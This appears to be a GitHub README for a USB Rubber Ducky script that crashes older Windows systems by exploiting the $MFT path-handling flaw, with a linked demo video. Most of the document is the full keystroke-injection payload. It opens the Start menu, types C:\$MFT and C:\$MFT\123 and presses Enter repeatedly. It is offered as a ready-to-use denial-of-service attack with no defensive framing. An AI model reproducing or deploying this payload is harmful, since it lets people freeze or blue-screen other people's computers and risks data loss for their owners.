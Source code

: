 # -$MFT-Duck-Crasher
A Simple Script for Rubber Ducky which Exploits Windows $MFT Vulnerability
$MFT is used by NTFS systems to manage some metadata.
 This fallace has recently been discovered, which has not yet been closed. Works on windows 7, 8 and vista, dont work on windows 10. I think work on Xp and earlier.
This Script dont require any special firmware on the Rubber Ducky (TwinDuck Firmare etc.).
You can also use this two strings directly on the Windows SearchBar to crash a computer.
The system crash lasts until the machine is switched off, or until the blue screen of death appears;)

A system crash demonstration using the two strings with the following paths: c:\$MFT & c:\$MFT\123 
can be found here:
https://www.youtube.com/watch?v=vYL9UQRwUZc&t=6s






<a href="http://www.youtube.com/watch?feature=player_embedded&v=vYL9UQRwUZc
" target="_blank"><img src="http://img.youtube.com/vi/vYL9UQRwUZc/0.jpg" 
alt="$MFT" width="600" height="450" border="100" /></a> 



$MFT-Duck-Crasher Payload
<br/>
<br/>
REM works on w7 - w8 - Vista (and i think xp and earlier too)
<br/>
REM it uses a high delay to support even older computers
<br/>
DELAY 1000
<br/>
CONTROL ESCAPE
<br/>
DELAY 500
<br/>
STRING C:\$MFT
<br/>
DELAY 500
<br/>
ENTER
<br/>
DELAY 700
<br/>
REM the 2nd enter is to close the error
<br/>
ENTER
<br/>
DELAY 500
<br/>
CONTROL ESCAPE
<br/>
DELAY 500
<br/>
STRING C:\$MFT\123
<br/>
DELAY 500
<br/>
ENTER
<br/>
DELAY 700
<br/>
ENTER
<br/>
DELAY 500
<br/>
CONTROL ESCAPE
<br/>
DELAY 500
<br/>
STRING C:\$MFT
<br/>
DELAY 500
<br/>
ENTER
<br/>
DELAY 700
<br/>
ENTER
<br/>
DELAY 500
<br/>
CONTROL ESCAPE
<br/>
DELAY 500
<br/>
STRING C:\$MFT\123
<br/>
DELAY 500
<br/>
ENTER
DELAY 700
ENTER
                                                            
